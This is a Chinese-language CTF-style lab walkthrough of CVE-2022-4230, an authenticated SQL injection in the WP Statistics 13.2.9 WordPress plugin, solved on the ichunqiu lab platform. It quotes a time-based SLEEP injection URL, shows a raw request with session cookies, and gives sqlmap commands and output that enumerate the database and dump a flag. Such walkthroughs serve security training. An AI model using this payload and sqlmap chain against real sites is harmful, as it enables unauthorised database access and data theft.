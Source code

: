 ```yaml
---
title: "CVE-2022-4230"
date: 2024-07-24
tags: ["春秋云镜","CVE","WordPress","SQLi"]
draft: false
---
```


<https://wpscan.com/vulnerability/a0e40cfd-b217-481c-8fc4-027a0a023312>


## WP Statistics 13.2.9 - Authenticated SQLi


### Description

The plugin does not escape a parameter, which could allow authenticated users to perform SQL Injection attacks. By default, the affected feature is available to users with the manage_options capability (admin+), however the plugin has a settings to allow low privilege users to access it as well.

### Proof of Concept

```http
Log in as a user allowed to View WP Statistic and get a nonce via 

https://example.com/wp-admin/admin-ajax.php?action=rest-nonce

, and use it in the URL below, which will be delayed by 5s:

http://example.com/wp-json/wp-statistics/v2/metabox?_wpnonce=NONCE&name=words&search_engine=aaa%27%20AND%20(SELECT%205671%20FROM%20(SELECT(SLEEP(5)))Mdgs)--%20HsBR
```

## 演示

环境: [春秋云镜 免费空间>CVE-2022-4230](https://yunjing.ichunqiu.com/cve/detail/1165)

### 1.登录

站点名称 test  尝试 用户名`test` 密码 `test`

![](https://static.guyu.pro/yunjing.ichunqiu.com/1165/1.webp)

![](https://static.guyu.pro/yunjing.ichunqiu.com/1165/2.webp)


### 2.验证

<http://eci-2zeem9trz06di7iavwqk.cloudeci1.ichunqiu.com/wp-admin/admin-ajax.php?action=rest-nonce>

![](https://static.guyu.pro/yunjing.ichunqiu.com/1165/3.webp)

获得`373ec6388f`

替换利用url的NONCE值为`373ec6388f`

<http://eci-2zeem9trz06di7iavwqk.cloudeci1.ichunqiu.com/wp-json/wp-statistics/v2/metabox?_wpnonce=373ec6388f&name=words&search_engine=aaa%27%20AND%20(SELECT%205671%20FROM%20(SELECT(SLEEP(5)))Mdgs)--%20HsBR>

![](https://static.guyu.pro/yunjing.ichunqiu.com/1165/4.webp)

### 3.利用

<http://eci-2zeem9trz06di7iavwqk.cloudeci1.ichunqiu.com/wp-json/wp-statistics/v2/metabox?_wpnonce=373ec6388f&name=words&search_engine=aaa> 因为要在已登录状态注入，需要带上cookie

![](https://static.guyu.pro/yunjing.ichunqiu.com/1165/5.webp)

保存为1165，在url地址参数`search_engine=aaa`后添加`*`，让sqlmap指定位置注入

```http
GET /wp-json/wp-statistics/v2/metabox?_wpnonce=373ec6388f&name=words&search_engine=aaa* HTTP/1.1
Host: eci-2zeem9trz06di7iavwqk.cloudeci1.ichunqiu.com
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_2d0601bd28de7d49818249cf35d95943=1721788611; Hm_lpvt_2d0601bd28de7d49818249cf35d95943=1721788611; HMACCOUNT=2484925BEB32E239; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_c2b05042e81e305748a3152f767ae796=test%7C1721961933%7C6aDuiQPvnYxV9n8rJoFMRrb2lLidmM44qJCWIkWBhpL%7C760092fb3e6b0d9fc2c20b27b5f932cc58550f89e95c485856a99d346212a418; wp-settings-time-1=1721789134
Connection: close
```

使用sqlmap注入

```bash
$ sqlmap -r 1165
URI parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection point(s) with a total of 75 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://eci-2zeem9trz06di7iavwqk.cloudeci1.ichunqiu.com/wp-json/wp-statistics/v2/metabox?_wpnonce=373ec6388f&name=words&search_engine=aaa' AND (SELECT 8907 FROM (SELECT(SLEEP(5)))nhIB) AND 'aFnu'='aFnu
---
[23:17:06] [INFO] the back-end DBMS is MySQL
[23:17:06] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
web application technology: PHP 7.4.33
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)

$ sqlmap -r 1165 --batch --current-db
current database: 'wordpress'

$ sqlmap -r 1165 --batch --tables -D wordpress
[23:31:20] [INFO] retrieved: flag

$ sqlmap -r 1165 --batch --dump -D wordpress -T flag
Database: wordpress
Table: flag
[1 entry]
+--------------------------------------------+
| flag                                       |
+--------------------------------------------+
| flag{7f698f8b-2cde-4f19-ab79-5e96778812d4} |
+--------------------------------------------+
```

